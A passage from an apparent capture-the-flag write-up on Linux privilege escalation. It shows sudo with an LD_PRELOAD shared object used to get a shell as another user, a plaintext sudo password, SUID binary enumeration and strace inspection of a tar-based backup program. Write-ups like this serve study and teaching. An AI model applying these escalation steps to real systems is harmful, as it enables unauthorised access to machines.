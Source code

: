 We compile it with `gcc` and run it as bryan:

    :::text
    [robin@fII ~]$ sudo -u bryan LD_PRELOAD=/tmp/lol.so /usr/local/bin/dice
    sudo -u bryan LD_PRELOAD=/tmp/lol.so /usr/local/bin/dice
    [sudo] password for robin: 40373df4b7a1f413af61cf7fd06d03a565a51898
    [bryan@fII robin]$ id
    id
    uid=1001(bryan) gid=1001(bryan) groups=1001(bryan)

### sean

Now that we have a shell as bryan we may execute the `backup` script own by
sean with the SUID set:

    :::text
    [bryan@fII bin]$ ls -al
    ls -al
    total 1960
    drwxr-xr-x.  2 root root       59 Aug 17  2015 .
    drwxr-xr-x. 12 root root     4096 Jun 22  2015 ..
    -rwsr-x---.  1 sean bryan    8830 Jul  2  2015 backup
    -rwxr-xr-x.  1 root root  1107672 Jun 22  2015 composer
    -rwx--x--x.  1 root root     8830 Jul  2  2015 dice
    -rwsr-x---   1 root sean   866169 Aug 15  2015 restore

Let us see what it does:

    :::text
    [bryan@fII bin]$ ./backup
    ./backup
    * Securing environment
    * Performing database backup...
    app/
    app/.gitignore
    database.sqlite
    framework/
    framework/cache/
    framework/cache/.gitignore
    framework/sessions/
    framework/sessions/.gitignore
    framework/views/
    framework/views/.gitignore
    logs/
    logs/.gitignore
    logs/lumen.log
    * Backup done!

It might be something about WildCards on linux.
Let us see what is used by the backup program with `strace` which available on
the server let us try it to see the inside of the program:

    :::text
    [sean@fII bin]$ strace -s 999 -v -f ./backup 2>&1 | grep execve
    strace -s 999 -v -f ./backup 2>&1 | grep execve
    execve("./backup", ["./backup"], ["TAR_SUBCOMMAND=-c", "TAR_FORMAT=gnu", "TERM=unknown", "SHELL=/bin/bash", "USER=bryan", "TAR_BLOCKING_FACTOR=20", "LS_COLORS=", "SUDO_USER=robin", "SUDO_UID=1000", "USERNAME=bryan", "PATH=/usr/local/bin:/bin:/usr/bin:/usr/local/sbin:/usr/sbin", "MAIL=/var/mail/bryan", "PWD=/usr/local/bin", "LANG=en_US.UTF-8", "TAR_ARCHIVE=/home/sean/backup_20160312.tar.gz", "TAR_CHECKPOINT=1", "SHLVL=13", "SUDO_COMMAND=/usr/local/bin/dice", "HOME=/home/bryan", "LOGNAME=bryan", "TAR_VERSION=1.26", "LESSOPEN=||/usr/bin/lesspipe.sh %s", "SUDO_GID=1000", "_=/bin/strace", "OLDPWD=/tmp"]) = 0